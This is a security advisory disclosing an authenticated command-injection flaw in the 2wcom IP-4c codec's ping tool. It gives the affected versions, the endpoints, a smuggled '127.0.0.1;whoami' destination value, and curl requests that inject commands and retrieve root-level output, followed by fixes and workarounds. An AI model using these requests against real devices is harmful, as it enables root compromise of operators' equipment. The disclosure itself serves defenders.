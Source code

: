 # 2wcom IP-4c - Remote Code Execution (RCE)

## Description
The 2wcom IP-4c web interface allows an authenticated attacker to perform Remote Code Execution via command injection in the ping tool configuration. This is due to improper input sanitization in the `Destination` field, which is executed directly in the system shell.

---

## Vendor Information

- **Vendor**: 2wcom  
- **Vendor Homepage**: https://www.2wcom.com/

## Product
- **Name**: 2wcom IP-4c
- **Firmware/Software Versions**:
  - **Bundle version**: 2.15.5
  - **File/Recovery system version**: 2.78 / 2.02
  - **App version**: 2.15.16
  - **Webinterface version**: 3.54
  - **FPGA version**: 1.12b64 / 0
  - **System controller version**: 1.07
  - **SNMP MIB version**: 4.4
  - **Kernel version**: 2wcom-01.25-rt60
  - **Codec versions**:
    - MP2 encoder: 1.5.0
    - MP2 decoder: 2.3.0
    - MP3 encoder: 5.12.1
    - MP3 decoder: 5.6.0
    - AAC encoder: 3.10.0
    - xHE-AAC encoder: 04.05.04
    - AAC decoder: 2.12.1
    - Opus: 1.5.2
    - E-aptX: 1.7
  - **HW revision XPS/IF**: 1.02 / 1.10

---

## Vulnerability Type
- Remote Code Execution (Authenticated)

## Attack Vector
- Network (Web Interface)


---


## Vulnerable Endpoints
- `/cwi/ajax_request/get_data.php?store=1`
- `/cwi/ajax_request/check_ping.php`
- `/#tcpip` (via web interface’s Tools > Ping)

---

## Exploitation

### Exploit via Web Interface
1. Login as admin.
2. Go to: `/#tcpip`  
   → Tools  
   → Ping
3. Set `Destination` to:
```bash
127.0.0.1;whoami
```
4. Set `Count` to `1` and start the ping.
5. The response will contain the output of the `whoami` command.

### Exploit via API (cURL Example)
1. Send the command injection using:
```bash
curl 'http://<target>/cwi/ajax_request/get_data.php?store=1' \
  -X POST \
  -H 'Cookie: PHPSESSID=<session>; other-cookies...' \
  --data-raw 'CSRFName=CSRFGuard_<id>&CSRFToken=<token>&set%3Acsl-interface-tools-ping-destination=127.0.0.1%3Bwhoami&set%3Acsl-interface-tools-ping-ifIndex=0&set%3Acsl-interface-tools-ping-ifIndexVlan=0&set%3Acsl-interface-tools-ping-count=1&set%3Acsl-interface-tools-ping-ttl=255&set%3Acsl-interface-tools-ping-dataSize=0'
```
2. Check the result with:
```bash 
curl 'http://<target>/cwi/ajax_request/check_ping.php' -X POST -H 'Cookie: PHPSESSID=<session>; other-cookies...' -H 'Content-Length: 0'
```
The response will contain command output:
```bash
uid=0(root) gid=0(root)
```
---

## Proof of Concept (PoC) for(RCE,Information Disclosure,Broken Access Control)
https://github.com/user-attachments/assets/42bc93b9-cc75-47bf-bae4-e33f6f87a3ce

---

## Impact 
 * Full system compromise as root 
 * Remote execution of arbitrary commands 
 * Potential to pivot within the network

---

## Suggested Fixes

  * Sanitize user inputs in ping tool configuration (block ;, &&, |, etc.)

  * Use safe API calls instead of direct shell execution

  * Implement strict role-based access controls

---

## Workarounds

  * Restrict access to /cwi/ajax_request/* endpoints using firewall rules or VPN

  * Monitor system logs for suspicious ping tool usage
